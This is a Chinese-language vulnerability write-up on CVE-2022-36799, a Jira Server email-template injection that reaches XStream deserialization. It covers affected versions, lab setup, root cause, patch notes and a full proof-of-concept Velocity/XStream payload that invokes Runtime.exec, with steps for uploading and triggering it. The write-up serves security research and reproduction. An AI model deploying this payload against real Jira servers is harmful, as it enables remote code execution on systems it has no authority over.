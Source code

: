 - [CVE-2022-36799 Jira Server 模板注入](#cve-2022-36799-jira-server-模板注入)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2022-36799 Jira Server 模板注入
## 影响版本
Affected versions:
version < 8.13.19
8.14.0 ≤ version < 8.20.7
8.21.0 ≤ version < 8.22.1
## 环境搭建
run --name="jira819" -d -p 8080:8080 atlassian/jira-software:8.19.0-RC01-ubuntu-jdk8
## 原理分析
公告中说明是邮件模板注入,其实还是CVE-2021-39115的黑名单绕过,在公告中写了防止利用Xstream库进行RCE.  
![](2022-08-04-17-52-54.png)
而JIRA使用的Xstream库是1.4.17版本,而Xstream的1.4.17版本的RCE很多.  
![](2022-08-04-17-54-21.png)
根据CVE-2021-39115的思路还是利用jirautils类的`loadComponent`方法来获取一个Xstream实例即可,然后后续其实就是调用其fromxml()来利用Xstream的漏洞进行rce了.
## 漏洞复现
最后用的一个jdk8 292环境的jira使用CVE-2021-39144的POC进行测试.
poc:
```
<html lang="en">
<label>
    #set($payload="<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
    </default>
    <int>3</int>
    <dynamic-proxy>
      <interface>java.lang.Comparable</interface>
      <handler class='sun.tracing.NullProvider'>
        <active>true</active>
        <providerType>java.lang.Comparable</providerType>
        <probes>
          <entry>
            <method>
              <class>java.lang.Comparable</class>
              <name>compareTo</name>
              <parameter-types>
                <class>java.lang.Object</class>
              </parameter-types>
            </method>
            <sun.tracing.dtrace.DTraceProbe>
              <proxy class='java.lang.Runtime'/>
              <implementing__method>
                <class>java.lang.Runtime</class>
                <name>exec</name>
                <parameter-types>
                  <class>java.lang.String</class>
                </parameter-types>
              </implementing__method>
            </sun.tracing.dtrace.DTraceProbe>
          </entry>
        </probes>
      </handler>
    </dynamic-proxy>
    <string>touch /tmp/poc</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>")
#set($XStream = $jirautils.loadComponent('com.thoughtworks.xstream.XStream',$i18n.getClass()))
$XStream.fromXML($payload)
</label>
<input value=$XStream>
</html>
```
替换邮件模板的通用模板如emailfromadmin.vm等的内容为poc内容,然后重新上传邮件模板覆盖发送邮件触发即可.  

![](2022-08-04-18-02-58.png)
## 补丁
拉黑xstream
![](2022-08-04-18-05-38.png)
## 参考
https://jira.atlassian.com/browse/JRASERVER-73582